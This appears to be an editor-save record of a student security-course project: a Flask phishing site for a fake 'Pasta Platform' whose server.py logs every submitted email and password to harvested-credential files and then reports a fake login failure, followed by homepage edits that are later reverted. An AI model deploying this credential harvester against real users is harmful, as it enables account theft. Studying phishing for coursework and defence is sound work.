
Repository: fuyu12345/ELEC0138Coursework_group10
Page: http://localhost/
An editor plug-in stored every save of this project. The page is shown before and after the next save, followed by the edit.
The browser window is 1280 px wide. The pictures show the whole page.
The page is served by the project's application, run on Flask 3 (server.py).

Above is the page before, as saved 2025-04-16 22:01:31.

### attack_phishing/0138/phishing login/templates/index.html
{% extends 'base.html' %}

{% block title %}Home{% endblock %}

{% block content %}
<h2>Welcome to Pasta Platform</h2>
<p>This is a simulated phishing homepage.</p>

<a href="/login" class="btn btn-primary mt-3">Login</a>
<a href="/register" class="btn btn-secondary mt-3 ms-2">Register</a>
{% endblock %}

### attack_phishing/0138/phishing login/templates/base.html
<!DOCTYPE html>
<html lang="en">
<head>
    {% block head %}
        <meta charset="utf-8">
        <meta name="viewport" content="width=device-width, initial-scale=1">

        <link href="https://cdn.jsdelivr.net/npm/bootstrap@5.3.3/dist/css/bootstrap.min.css" rel="stylesheet" integrity="sha384-QWTKZyjpPEjISv5WaRU9OFeRpok6YctnYmDr5pNlyT2bRjXh0JMhjY6hW+ALEwIH" crossorigin="anonymous">
        <title>
        Pasta - {% block title %}{% endblock %}
        </title>
        <style>
            body {
                background: linear-gradient(to right, #dadd6c 0%, #adeb88 100%);
            }
        </style>
    {% endblock %}
</head>
<body>

    {% if session.user_id %}
        <header>
            {% include 'navbar.html' %}
        </header>
    {% endif %}
    <div id="content" class="container-fluid">
        {% with messages = get_flashed_messages(with_categories=true) %}
            {% if messages %}
                {% for category, message in messages %}
                    <div class="alert alert-{{ category }}">{{ message }}</div>
                {% endfor %}
            {% endif %}
        {% endwith %}

        {% block content %}{% endblock %}
    </div>
</body>
<script src="https://cdn.jsdelivr.net/npm/bootstrap@5.3.3/dist/js/bootstrap.bundle.min.js" integrity="sha384-YvpcrYf0tY3lHB60NNkmXc5s9fDVZLESaAA55NDzOxhy9GkcIdslK1eN7N6jIeHz" crossorigin="anonymous"></script>

</html>

### attack_phishing/0138/phishing login/server.py
from flask import Flask, request, render_template
from datetime import datetime
import os

app = Flask(__name__)

# Auto-create files with header line if not exist
for file in ['harvested_logins.txt', 'harvested_registers.txt']:
    if not os.path.exists(file):
        with open(file, 'w') as f:
            f.write("timestamp | email:password\n")

@app.route('/warning')
def warning():
    return render_template('warning.html')


def harvest_credentials(source, email, password):
    timestamp = datetime.now().strftime("%Y-%m-%d %H:%M:%S")
    print(f"[{source.upper()}] {email}:{password}")
    with open(f"harvested_{source}s.txt", "a") as f:
        f.write(f"{timestamp} | {email}:{password}\n")

@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'POST':
        email = request.form.get('email')
        password = request.form.get('password')
        harvest_credentials('login', email, password)
        return "<h3>Login failed. Please try again later.</h3>"
    return render_template('login.html')

@app.route('/register', methods=['GET', 'POST'])
def register():
    if request.method == 'POST':
        email = request.form.get('email')
        password = request.form.get('password')
        harvest_credentials('register', email, password)
        return "<h3>Registration failed. Please try again later.</h3>"
    return render_template('register.html')

@app.route('/')
def home():
    return render_template('index.html')

if __name__ == '__main__':
    app.run(port=5001, debug=True)

After the next save:

Saved 5 min 17 s later.
--- a/attack_phishing/0138/phishing login/templates/index.html
+++ b/attack_phishing/0138/phishing login/templates/index.html
@@ -3,9 +3,14 @@
 {% block title %}Home{% endblock %}
 
 {% block content %}
-<h2>Welcome to Pasta Platform</h2>
-<p>This is a simulated phishing homepage.</p>
+<div class="container mt-5">
+  <h2>Welcome to Pasta Platform</h2>
+  <p>This is a simulated homepage.</p>
 
-<a href="/login" class="btn btn-primary mt-3">Login</a>
-<a href="/register" class="btn btn-secondary mt-3 ms-2">Register</a>
+  <a href="/login" class="btn btn-primary me-2">Login</a>
+  <a href="/register" class="btn btn-secondary me-2">Register</a>
+
+  <!-- 👇 New suspicious report button -->
+  <a href="/warning" class="btn btn-danger ms-2">Report Suspicious Activity</a>
+</div>
 {% endblock %}

After the save that followed:

Saved 65 s later.
--- a/attack_phishing/0138/phishing login/templates/index.html
+++ b/attack_phishing/0138/phishing login/templates/index.html
@@ -3,14 +3,9 @@
 {% block title %}Home{% endblock %}
 
 {% block content %}
-<div class="container mt-5">
-  <h2>Welcome to Pasta Platform</h2>
-  <p>This is a simulated homepage.</p>
+<h2>Welcome to Pasta Platform</h2>
+<p>This is a simulated phishing homepage.</p>
 
-  <a href="/login" class="btn btn-primary me-2">Login</a>
-  <a href="/register" class="btn btn-secondary me-2">Register</a>
-
-  <!-- 👇 New suspicious report button -->
-  <a href="/warning" class="btn btn-danger ms-2">Report Suspicious Activity</a>
-</div>
+<a href="/login" class="btn btn-primary mt-3">Login</a>
+<a href="/register" class="btn btn-secondary mt-3 ms-2">Register</a>
 {% endblock %}
